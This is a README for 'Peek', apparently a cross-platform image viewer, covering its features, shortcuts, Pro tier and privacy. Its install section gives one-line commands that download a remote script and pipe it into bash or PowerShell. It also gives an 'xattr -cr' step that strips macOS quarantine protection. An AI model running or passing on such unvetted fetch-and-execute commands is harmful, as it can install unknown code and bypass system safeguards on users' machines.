



<p align="center">
  
</p>

<h1 align="center">Peek</h1>

<p align="center">A fast, minimal image viewer for macOS, Windows and Linux.<br>
Open a picture, arrow through the folder, get back to work.</p>

<p align="center">
  <a href="https://github.com/JKS-sys/peek-04-sep-2026-releases/releases/latest"><b>⬇ Latest release (v2.0.11)</b></a> ·
  <a href="https://ipconfig.co.network/peek"><b>🌐 Website</b></a> ·
  <a href="https://ipconfig.co.network/updates/peek/notes">📝 Release notes</a>
</p>

<p align="center"><b>Version 2.0.11</b> · a few MB · macOS 10.15+, Windows 10+, Linux x86_64</p>

<p align="center">
  
</p>

---

## Install

### macOS and Linux — one line

```bash
curl -fsSL https://ipconfig.co.network/updates/peek/install.sh | bash
```

It downloads the latest Peek for your Mac (Apple Silicon or Intel) or Linux PC, installs it, and opens it.
Run it again any time to update. On a Mac it installs to **/Applications** and clears the download quarantine
flag for you, so there is no "damaged app" warning.

### Windows — one line (PowerShell)

```powershell
irm https://ipconfig.co.network/updates/peek/install.ps1 | iex
```

### Or download the installer yourself

| Platform | Download |
|---|---|
| **Mac — Apple Silicon** (M1 and later) | [Peek_2.0.11_aarch64.dmg](https://ipconfig.co.network/updates/peek/Peek_2.0.11_aarch64.dmg) |
| **Mac — Intel** | [Peek_2.0.11_x64.dmg](https://ipconfig.co.network/updates/peek/Peek_2.0.11_x64.dmg) |
| **Windows** | [Peek_2.0.11_x64-setup.exe](https://github.com/JKS-sys/peek-04-sep-2026-releases/releases/latest) |
| **Linux** (AppImage / .deb) | [Latest release](https://github.com/JKS-sys/peek-04-sep-2026-releases/releases/latest) |

Downloaded a DMG by hand? Drag **Peek** into **Applications**, then run this once in Terminal:

```bash
xattr -cr /Applications/Peek.app
```

Peek is not distributed through the App Store, so macOS marks a browser download as quarantined and may call it
"damaged". That command removes only the download flag. The one-line installer above does it for you.

## Screenshots

<table>
  <tr>
    <td width="50%"></td>
    <td width="50%"></td>
  </tr>
  <tr>
    <td><b>Light mode.</b> The sidebar lists only folders that contain pictures. One click opens an image; the
    selected file is highlighted and the counter shows where you are in the folder (24 of 31).</td>
    <td><b>Dark mode.</b> Same layout, tuned for night work. Appearance follows your system, or set it to Light or
    Dark in <i>View › Appearance</i>.</td>
  </tr>
  <tr>
    <td></td>
    <td></td>
  </tr>
  <tr>
    <td><b>Image Info</b> (press <kbd>I</kbd>). Dimensions, file size, dates, format, aspect ratio and megapixels,
    with Reveal in Finder, Copy Image and Share / AirDrop one click away.</td>
    <td><b>Just the picture.</b> Hide the sidebar with <kbd>⌘B</kbd> and the image fills the window. Arrow keys still
    walk the folder.</td>
  </tr>
  <tr>
    <td></td>
    <td><b>About Peek.</b> The version you are running, plus who makes Peek and how to reach him.</td>
  </tr>
</table>

## What it does

- Opens **JPEG, PNG, GIF, WebP, HEIC/HEIF, TIFF, BMP, SVG and ICO**, and AVIF on macOS 13 or later
- Arrow keys walk the folder in the order you'd expect (`img2` before `img10`), wrapping at the ends
- **Sidebar:** one click opens an image or a folder; folders without pictures are hidden; select several
  images and press **Delete** to move them to the Trash; drag to select a range; search what's open
- Zoom, pan, rotate, flip, fit-to-window and actual size
- **Colour-coded throughout:** every image type has its own colour, matching across the sidebar, the file
  name and Image Info, in light and dark mode
- Short sound effects for actions like delete, copy and activate. Switch them off with **⌥⌘S**
- One window per image, opened straight from Finder; reopens what you had open
- Copy, Share / AirDrop, Reveal in Finder, Move to Trash, Move to…
- Large photos open as a sharp preview instead of slowing the computer down
- Updates itself: **Update › Check for Updates**
- Press **?** for every keyboard shortcut

### Peek Pro

Slideshow, colour picker (click to copy the hex), batch rename, batch convert, crop & resize and watermark.
**₹20/month** or **₹220/year**, paid through Razorpay inside the app. Activation codes work too:
**Peek › Enter Activation Code**. Viewing images is free for everyone.

## Keyboard

| | |
|---|---|
| Open image / folder | ⌘O / ⇧⌘O |
| Previous / next | ← / → |
| Zoom in / out | ⌘= / ⌘− |
| Fit / actual size | 0 / 1 |
| Rotate | R |
| Fullscreen | F |
| Info panel / sidebar | I / ⌘B |
| Delete selected images (sidebar) | ⌫ |
| Copy · Share · Trash | ⌘C · ⇧⌘A · ⌘⌫ |
| All shortcuts | ? |

## Privacy

Your images never leave your computer. Peek connects to the internet only to check for updates, to activate a
code (and confirm it is still valid), and for a checkout you start yourself. If Peek ever crashes, it asks
before sending a report, and shows you exactly what is in it first. Your user name and home folder are removed
from the report, and no images or file contents are ever included.

## Problems

Use **Help › Report a Problem…** inside Peek, or [open an issue](../../issues) with your OS version and what happened.

## Support Peek

Peek is made by one person. If it saves you time, you can
[buy me a coffee](https://razorpay.me/@NSBJKS) — any amount, UPI or card.

---

Made by **Jagadeesh Kumar S** — [Website](https://ipconfig.co.network/peek) ·
[NewsCraft Studio on YouTube](https://www.youtube.com/@JKS-sys) ·
[JKS.sys@icloud.com](mailto:JKS.sys@icloud.com) · [Sponsor](https://razorpay.me/@NSBJKS)
